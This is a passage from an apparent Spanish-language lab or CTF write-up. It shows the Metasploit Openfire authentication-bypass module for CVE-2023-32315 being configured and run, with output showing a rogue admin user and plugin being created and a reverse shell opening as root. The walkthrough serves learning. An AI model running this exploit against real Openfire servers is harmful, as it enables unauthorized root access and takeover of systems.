 En este caso solo tenemos que modificar la ip del servidor con `set rhost 172.17.0.2` y nuestra ip para conseguir una shell reversa con `set lhost 172.17.0.1`

```bash
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > set rhosts 172.17.0.2
rhosts => 172.17.0.2
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > set lhost 172.17.0.1
lhost => 172.17.0.1

```

Ejecutamos el exploit con `run` y obtenemos la shell reversa como **root**.

```bash
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node0cth6fd268hoq15f35ozhcwbce178.node0
[*] csrf=lIe3q07bz2wrINa
[*] Adding a new admin user.
[*] Logging in with admin user "tcodhiugrmxzf" and password "2HvOx3pY".
[*] Upload and execute plugin "aoxYPFC316nfr" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 172.17.0.2
[!] Plugin "aoxYPFC316nfr" need manually clean-up via Openfire Admin console.
[!] Admin user "tcodhiugrmxzf" need manually clean-up via Openfire Admin console.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:53926) at 2024-06-25 21:28:44 +0200

id
uid=0(root) gid=0(root) groups=0(root)
hostname
9566bdac1160

```
